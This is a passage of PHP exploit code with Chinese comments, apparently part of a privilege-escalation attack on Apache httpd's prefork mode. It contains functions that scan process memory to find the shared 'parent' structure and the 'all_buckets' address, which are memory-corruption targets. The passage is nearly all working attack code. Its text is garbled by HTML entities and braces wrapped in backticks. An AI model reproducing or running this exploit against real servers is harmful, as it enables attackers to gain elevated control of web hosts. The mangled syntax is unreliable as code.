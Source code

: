 ```
        for($j = 0;$j&lt;5;$j++)`{`//循环次数，请参考httpd-mpm.conf中的prefork的MinSpareServers
            $pid = read_mem_dword($shm_region[0][0]+ $i + $j*$parent_size);
            if( $my_pid - 20 &lt; $pid &amp;&amp; $pid &lt; $my_pid+20)`{`//因为prefork中，进程的pid是紧挨的，我们可以通过这个来判断是否是parent数组的首地址
                $hit_count++;    
            `}`
        `}`
        if($hit_count == 5)`{`
            return $shm_region[0][0]+$i;
        `}`
    `}`


    return 0;
`}`



function locate_self_parent_struct_addr()//获取共享内存中，当前parent的首地址
`{`
    $my_pid = getmypid();
    $shm_region = get_mem_region("/dev/zero");
    if(!count($shm_region))
        return 0;
    //因为parent数组，总是位于第一个/dev/zero中，所以，我们只搜索第一个
    echo "/dev/zero start addr:0x".dechex($shm_region[0][0])."\n";
    echo "/dev/zero end addr:0x".dechex($shm_region[0][1])."\n";


    for($i =0;$i&lt;4096;$i++)`{`
        $pid = read_mem_dword($shm_region[0][0]+$i);//pid_t在我的环境中，为4字节大小
        if($pid == $my_pid)`{`
            return $shm_region[0][0]+$i;//找到直接返回
        `}`
    `}`

    return 0;
`}`

//获取all_buckets的地址
function locate_all_buckets_addr()
`{`
    $heap_region = get_mem_region("heap");//在我的环境中，all_bucket位于第一个heap中
    $libapr_region = get_mem_region("libapr-");
    if(!count($heap_region) || !count($libapr_region))
        return 0;
    $heap_start_addr = $heap_region[0][0];
    $heap_end_addr = $heap_region[0][1];

    echo "heap start addr:0x".dechex($heap_start_addr)."\n";
    echo "heap end addr:0x".dechex($heap_end_addr)."\n";

    $libapr_text_start_addr = 0;
    $libapr_data_start_addr = 0;
    $libapr_text_end_addr = 0;
    $libapr_data_end_addr = 0;
    for($i = 0;$i&lt;count($libapr_region);$i++)`{`
        if($libapr_region[$i][2] === "r-xp")`{`//代码段
            $libapr_text_start_addr = $libapr_region[$i][0];
            $libapr_text_end_addr = $libapr_region[$i][1];
            continue;
        `}`

```